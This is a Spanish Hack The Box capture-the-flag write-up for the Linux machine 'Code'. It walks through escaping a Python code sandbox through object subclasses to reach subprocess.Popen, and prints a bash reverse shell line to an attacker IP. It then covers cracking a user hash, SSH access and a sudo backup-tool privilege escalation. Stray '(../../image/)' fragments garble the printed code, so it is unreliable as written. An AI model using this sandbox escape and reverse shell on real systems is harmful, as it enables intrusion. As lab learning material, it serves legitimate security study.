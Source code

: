 ![alt text](../../image/code0.png)

| MAQUINA |  OS   | DIFICULTAD |  PLATAFORMA  |    IP    |
| :-----: | :---: | :--------: | :----------: | :------: |
|  CODE   | LINUX |   FACIL    | HACK THE BOX | CODE.HTB |
## *Reconocimiento*

Comenzamos con un escaneo simple a la IP generada en Hack the box para esta maquina y se encuentra 2 puertos abiertos.

![alt text](../../image/code1.png)

En la búsqueda de directorios solo encontramos los que trae la pagina principal, no había mucho que buscar y tampoco se hallaron subdominios.

## *Análisis de vulnerabilidades*

La pagina trae un entorno de desarrollo con el lenguaje python, entre muchos códigos que podamos hacer hay una limitación a la hora de importar módulos, la pagina no nos permite trabajar con palabras clave

![alt text](../../image/code2.png)
![alt text](../../image/code3.png)

Con ayuda de un foro encontré una solución para bypassear una reverse shell en python. Como no comprendí muy bien este código hice que chatgpt me aclarara.

```python
(../../image/).__class__.__base__.__subclasses__(../../image/)[317](../../image/
["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])
```
## 🔍 **Paso a paso de la ejecución**

1️⃣ `(../../image/)` → **Crea una instancia de un objeto vacío**

- En Python, `(../../image/)` representa un **objeto sin definir**.
    
- Luego, se accede a sus atributos internos.
    

2️⃣ `(../../image/).__class__` → **Obtiene la clase del objeto**

- `(../../image/).__class__` devuelve `<class 'tuple'>`, ya que `(../../image/)` es una tupla vacía.
    

3️⃣ `(../../image/).__class__.__base__` → **Obtiene la clase base de la tupla**

- La clase base de `tuple` en Python es `object`, por lo que `(../../image/).__class__.__base__` devuelve `<class 'object'>`.
    

4️⃣ `(../../image/).__class__.__base__.__subclasses__(../../image/)` → **Lista todas las subclases de `object`**

- En Python, `object` es la clase base de todo.
    
- `.subclasses__(../../image/)` devuelve una lista de **todas las clases derivadas** de `object` en memoria.
    

5️⃣ `(../../image/)[317]` → **Accede a una clase específica**

- `__subclasses__(../../image/)` devuelve una lista de cientos de clases.
    
- `317` es el índice de la clase que queremos (../../image/que en muchas versiones de Python es `subprocess.Popen` o similar).
    

6️⃣ `(../../image/)[317](../../image/[...])` → **Ejecuta un comando con `subprocess.Popen`**

- `[317]` selecciona la clase `subprocess.Popen`.
    
- Se ejecuta con `(../../image/["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])`.

## *Explotación*
![alt text](../../image/code4.png)

Antes de correr el script debo estar en escucha para poder tener la reverse shell. Ejecuto el script y tengo acceso a la ruta de producción.

![alt text](../../image/code5.png)

Encuentro las palabras claves que no podían ser leídas por el IDE.

![alt text](../../image/code6.png)

Saliendo de la ruta app encontramos la primera flag de usuario.

![alt text](../../image/code7.png)

Seguía indagando y encontré una base de datos con sus usuarios y contraseñas hasheadas

![alt text](../../image/code8.png)

![alt text](../../image/code9.png)

Ya con la credencial de martin accedo al ssh y nos encontramos con un archivo json y otro comprimido. Quiero saber que trae el archivo json y encuentro lo siguiente.

![alt text](../../image/code10.png)
![alt text](../../image/code11.png)

## *Post-Explotación*

Con la ayuda del operador EOF puedo editar un archivo usando **cat**, lo que haria este archivo es traer el directorio en donde se encuentre /root/root.txt y comprimirlo. Para que este puede ejecutarse acudimos a sudo y el comando el cual martin puede trabajar, llamamos al mismo tiempo al archivo y comienza a comprimirse.

![alt text](../../image/code12.png)

Revisamos y tenemos un nuevo archivo comprimido con extension .tar, descomprimimos y tenemos la carpeta root con su flag.

![alt text](../../image/code13.png)
